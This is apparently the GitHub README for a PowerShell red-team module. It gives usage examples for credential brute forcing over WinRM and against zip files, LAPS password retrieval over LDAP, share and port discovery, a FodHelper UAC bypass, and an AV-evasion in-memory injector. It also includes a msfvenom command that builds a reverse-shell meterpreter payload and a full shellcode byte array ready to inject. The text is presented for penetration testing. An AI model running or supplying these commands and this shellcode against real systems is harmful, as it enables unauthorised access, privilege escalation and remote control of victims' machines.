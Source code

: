 # PowerShell-Red-Team-Enum
Collection of PowerShell functions a Red Teamer may use to collect data from a machine or gain access to a target. I added ps1 files for the commands that are included in the RedTeamEnum module. This will allow you to easily find and use only one command if that is all you want. If you want the entire module perform the following actions after downloading the RedTeamEnum directory and contents to your device.
```powershell
C:\PS> robocopy .\RedTeamEnum $env:USERPROFILE\Documents\WindowsPowerShell\Modules\RedTeamEnum *
# This will copy the module to a location that allows you to easily import it. If you are using OneDrive sync you may need to use $env:USERPROFILE\OneDrive\Documents\WindowsPowerShell\Modules\RedTeamEnum instead.

C:\PS> Import-Module -Name RedTeamEnum -Verbose
# This will import all the commands in the module. 

C:\PS> Get-Command -Module RedTeamEnum
# This will list all the commands in the module.
```

- Convert-Base64.psm1 is a function as the name states for encoding and/or decoding text into Base64 format.
```powershell
C:\PS> Convert-Base64 -Value "Convert me to base64!" -Encode

C:\PS> Convert-Base64 -Value "Q29udmVydCBtZSB0byBiYXNlNjQh" -Decode
```

- Convert-SID.ps1 is a function that converts SID values to usernames and usernames to SID values
```powershell
C:\PS> Convert-SID -Username tobor
# The above example converts tobor its SID value

C:\PS> Convert-SID -SID S-1-5-21-2860287465-2011404039-792856344-500
# The above value converts the SID value to its associated username
```

- Test-BruteZipPassword is a function that uses a password file to brute force a password protected zip file using 7zip
```powershell
C:\PS> Test-BruteForceZipPassword -PassFile 'C:\Users\USER\Downloads\Applications\pass.txt' -Path 'C:\Users\USER\Downloads\Applications\KiTTY.7z' -ZipExe 'C:\Program Files\7-Zip\7z.exe'
# This example uses the passwords in the pass.txt file to crack the password protected KiTTY.7z file
```

- Test-BruteForceCredentials is a function that uses WinRM to brute force a users password.
```powershell
C:\PS> Test-BruteForceCredentials -ComputerName DC01.domain.com -UseSSL -Username 'admin','administrator' -Passwd 'Password123!' -SleepMinutes 5
# This example will test the one password defined against both the admin and administrator users on the remote computer DC01.domain.com using WinRM over HTTPS with a time interval of 5 minutes between each attempt

C:\PS> Test-BruteForceCredentials -ComputerName File.domain.com -UserFile C:\Temp\users.txt -PassFile C:\Temp\rockyou.txt 
# This example will test every password in rockyou.txt against every username in the users.txt file without any pause between tried attempts
```

- Get-LdapInfo is a function I am very proud of for performing general LDAP queries. Although only two properties will show in the output, all of the properties associated with object can be seen by piping to Select-Object -Property * or using the -Detailed switch parameter.
```powershell
C:\PS> Get-LdapInfo -Detailed -SPNNamedObjects
# The above returns all the properties of the returned objects
#
C:\PS> Get-LdapInfo -DomainControllers | Select-Object -Property 'Name','ms-Mcs-AdmPwd'
# If this is run as admin it will return the LAPS password for the local admin account
#
C:\PS> Get-LdapInfo -ListUsers | Where-Object -Property SamAccountName -like "user.samname"
# NOTE: If you include the "-Detailed" switch and pipe the output to where-object it will not return any properties. If you wish to display all the properties of your result it will need to be carried out using the below format
#
C:\PS> Get-LdapInfo -AllServers | Where-Object -Property LogonCount -gt 1 | Select-Object -Property * 
 
```

- Get-NetworkShareInfo is a cmdlet that is used to retrieve information and/or brute force discover network shares available on a remote or local machine
```powershell
C:\PS> Get-NetworkShareInfo -ShareName C$
# The above example returns information on the share C$ on the local machine
#RESULTS
Name         : C$
InstallDate  :
Description  : Default share
Path         : C:\
ComputerName : TOBORDESKTOP
Status       : OK

C:\PS> Get-NetworkShareInfo -ShareName NETLOGON,SYSVOL,C$ -ComputerName DC01.domain.com, DC02.domain.com, 10.10.10.1
# The above example disocvers and returns information on NETLOGON, SYSVOL, and C$ on the 3 remote devices DC01, DC02, and 10.10.10.1
```

- Test-PrivEsc is a function that can be used for finding whether WSUS updates over HTTP are vulnerable to PrivEsc, Clear Text credentials are stored in common places,  AlwaysInstallElevated is vulnerable to PrivEsc, Unquoted Service Paths exist, and enum of possible weak write permissions for services.
```powershell
 C:\PS> Test-PrivEsc
```

- Get-InitialEnum is a function for enumerating the basics of a Windows Operating System to help better display possible weaknesses.
```powershell
 C:\PS> Get-InitialEnum
```

- Start-SimpleHTTPServer is a function used to host an HTTP server for downloading files. It is meant to be similart to pythons SimpleHTTPServer module. Directories are not traversable through the web server. The files that will be hosted for download will be from the current directory you are in when issuing this command.
```powershell
C:\PS> Start-SimpleHTTPServer
Open HTTP Server on port 8000

#OR
C:\PS> Start-SimpleHTTPServer -Port 80
# Open HTTP Server on port 80
```

- Invoke-PortScan.ps1 is a function for scanning all possible TCP ports on a target. I will improve in future by including UDP as well as the ability to define a port range. This one is honestly not even worth using because it is very slow. Threading is a weak area of mine and I plan to work on that with this one.
```powershell
 C:\PS> Invoke-PortScan -IpAddress 192.168.0.1
```

- Invoke-PingSweep is a function used for performing a ping sweep of a subnet range. 
```powershell
C:\PS> Invoke-PingSweep -Subnet 192.168.1.0 -Start 192 -End 224 -Source Singular
# NOTE: The source parameter only works if IP Source Routing value is "Yes"

C:\PS> Invoke-PingSweep -Subnet 10.0.0.0 -Start 1 -End 20 -Count 2
# Default value for count is 1

C:\PS> Invoke-PingSweep -Subnet 172.16.0.0 -Start 64 -End 128 -Count 3 -Source Multiple
```

- Invoke-UseCreds is a function I created to simplify the process of using obtained credentials during a pen test. I use -Passwd instead of -Password because that parameter when defined should be configured as a secure string which is not the case when entering a value into that filed with this function. It gets converted to a secure string after you set that value.
```powershell
# The below command will use the entered credentials to open the msf.exe executable as the user tobor
C:\PS> Invoke-UseCreds -Username 'OsbornePro\tobor' -Passwd 'P@ssw0rd1' -Path .\msf.exe -Verbose
```

- Invoke-FodHelperBypass is a function that tests whether or not the UAC bypass will work before executing it to elevate priviledges. This of course needs to be run by a member of the local administrators group as this bypass elevates the priviledges of the shell you are in. You can define the program to run which will allow you to execute generaate msfvenom payloads as well as cmd or powershell or just issuing commands.
```powershell
C:\PS> Invoke-FodHelperBypass -Program "powershell" -Verbose
# OR 
C:\PS> Invoke-FodHelperBypass -Program "cmd /c msf.exe" -Verbose
```

- Invoke-InMemoryPayload is used for AV Evasion using an In-Memory injection. This will require the runner to generate an msfvenom payload using a command similar to the example below, and entering the "[Byte[]] $buf" variable into Invoke-InMemoryPayloads "ShellCode" parameter.
```bash
# Generate payload to use
msfvenom -p windows/meterpreter/shell_reverse_tcp LHOST=192.168.137.129 LPORT=1337 -f powershell
```
Start a listener, use that value in the "ShellCode" parameter, and run the command to gain your shell. This will also require certain memory protections to not be enabled. 
__NOTE:__ Take note there are __NOT ANY DOUBLE QUOTES__ around the ShellCode variables value. This is because it is expecting a byte array.
```powershell
C:\PS> Invoke-InMemoryPayload -Payload 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x5,0x39,0xc0,0xa8,0x89,0x81,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5 -Verbose
```
![Invoke-InMemoryPayload Image](https://raw.githubusercontent.com/tobor88/PowerShell-Red-Team/master/InvokeInMemPayloadImg.png)
